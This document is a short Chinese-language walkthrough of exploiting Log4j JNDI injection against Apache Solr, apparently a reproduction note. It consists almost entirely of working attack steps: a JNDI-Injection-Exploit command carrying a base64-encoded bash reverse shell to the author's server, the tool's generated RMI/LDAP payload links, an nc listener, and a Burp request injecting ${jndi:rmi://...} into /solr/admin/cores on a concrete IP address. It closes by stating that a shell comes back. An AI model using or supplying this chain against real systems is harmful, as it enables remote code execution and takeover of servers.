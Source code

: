 然后开启JNDI服务,下面的xx IP是我的服务器IP地址，也就是等会发送请求会请求这台服务器上的恶意服务

```
 bin ./java -jar ../../JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C bash -c "{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eC54eC54eC54eC85OTkyIDA+JjE=}|{base64,-d}|{bash,-i}" -A xx.xx.xx.xx
 // -c是执行的bash命令，-A是指JNDI服务器IP
```

这是JNDI服务生成的链接地址，等会把它放入请求包中替换dnslog地址

```
----------------------------JNDI Links---------------------------- 
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://xx.xx.xx.xx:1099/vejllu
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://xx.xx.xx.xx:1099/hpj9xk
ldap://xx.xx.xx.xx:1389/hpj9xk
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://xx.xx.xx.xx:1099/5gd1xj
ldap://xx.xx.xx.xx:1389/5gd1xj

----------------------------Server Log----------------------------
2023-07-03 16:03:02 [JETTYSERVER]>> Listening on 0.0.0.0:8180
2023-07-03 16:03:02 [RMISERVER]  >> Listening on 0.0.0.0:1099
2023-07-03 16:03:03 [LDAPSERVER] >> Listening on 0.0.0.0:1389
```

服务器开启监听端口9992

```
nc -lnvp 9992
```

在Burp中发送请求

```
GET /solr/admin/cores?action=${jndi:rmi://xx.xx.xx.xx:1099/hpj9xk} HTTP/1.1
Host: 43.143.138.7:8983
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

监听端口返回一个shell

<figure><img src="../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>
